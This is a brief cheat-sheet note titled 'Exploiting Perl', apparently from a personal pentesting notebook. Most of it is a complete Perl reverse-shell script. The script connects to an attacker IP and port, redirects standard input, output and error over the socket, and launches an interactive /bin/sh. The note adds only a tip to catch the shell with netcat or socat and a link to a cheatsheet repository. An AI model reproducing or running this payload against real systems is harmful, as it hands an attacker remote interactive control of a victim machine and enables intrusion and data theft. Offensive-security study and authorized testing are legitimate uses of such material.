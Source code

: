 # Exploiting Perl

* **author**:: Nathan Acks  
* **date**:: 2022-07-11

A simple reverse shell:

```perl
use Socket;

$attacker_ip="10.0.0.1";
$attacker_port=1234;

socket(S, PF_INET, SOCK_STREAM, getprotobyname("tcp"));
if(connect(S,sockaddr_in($attacker_port, inet_aton($attacker_ip)))){
	open(STDIN, ">&S");
	open(STDOUT, ">&S");
	open(STDERR, ">&S");
	exec("/bin/sh -i");
};
```

Catch it with netcat or socat.

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)

